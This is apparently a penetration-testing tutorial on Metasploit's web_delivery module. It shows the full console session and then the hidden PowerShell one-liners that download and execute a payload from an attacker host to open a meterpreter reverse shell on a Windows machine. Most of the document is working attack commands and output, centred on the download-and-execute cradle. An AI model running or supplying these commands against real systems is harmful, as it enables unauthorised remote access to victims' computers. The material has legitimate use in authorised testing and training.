 ## Metasploit Web Delivery

[Metasploit Web Delivery](https://www.offensive-security.com/metasploit-unleashed/web-delivery/)

Metasploit’s Web Delivery Script is a versatile module that creates a server on the attacking machine which hosts a payload. When the victim connects to the attacking server, the payload will be executed on the victim machine. This module has a powershell method which generates a string which is needed to be executed on remote windows machine.

```
msf > use exploit/multi/script/web_delivery
msf exploit(web_delivery) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Python
   1   PHP
   2   PSH


msf exploit(web_delivery) > set target 2
target => 2
msf exploit(web_delivery) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf exploit(web_delivery) > set lhost 14.97.131.138
lhost => 14.97.131.138
msf exploit(web_delivery) > run
[*] Exploit running as background job.

[*] Started HTTPS reverse handler on https://14.97.131.138:8443
msf exploit(web_delivery) > [*] Using URL: http://0.0.0.0:8080/uMOKs6wtlYL
[*] Local IP: http://14.97.131.138:8080/uMOKs6wtlYL
[*] Server started.
[*] Run the following command on the target machine:
powershell.exe -nop -w hidden -c $X=new-object net.webclient;$X.proxy=[Net.WebRequest]::GetSystemWebProxy();$X.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $X.downloadstring('http://14.97.131.138:8080/uMOKs6wtlYL');
```

When the following command \(when there is no proxy\)

```
powershell.exe -nop -w hidden -c $X=new-object net.webclient;IEX $X.downloadstring('http://14.97.131.138:8080/uMOKs6wtlYL');
```

or \(when there is proxy\)

```
powershell.exe -nop -w hidden -c $X=new-object net.webclient;$X.proxy=[Net.WebRequest]::GetSystemWebProxy();$X.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $X.downloadstring('http://14.97.131.138:8080/uMOKs6wtlYL');
```

is executed on the windows remote machine, we should get a meterpreter.

```
Delivery web_delivery payload
meterprerter>
```



